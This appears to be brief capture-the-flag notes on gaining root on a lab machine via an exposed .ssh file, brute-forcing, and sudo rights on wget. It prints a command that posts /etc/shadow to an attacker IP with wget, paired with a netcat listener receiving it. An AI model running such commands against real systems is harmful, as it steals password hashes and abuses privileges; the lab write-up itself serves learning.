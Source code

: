 only http and ssh open

there is a comment containing a name, possibly user.

There is a .ssh file in the webserver, BRUTEFORCE PROPERLY

user have sudo access to `wget`

`wget` can be used to upload file(data exfiltration), so with sudo it can be used to upload high-privileged file like /etc/shadow or files in the /root directory:
```bash
sudo wget --post-file=/etc/shadow 10.4.50.18 #victim machine
nc -lvnp 80 > output #attacker machine
```

Guessing the filename based on the user flag, you get the root flag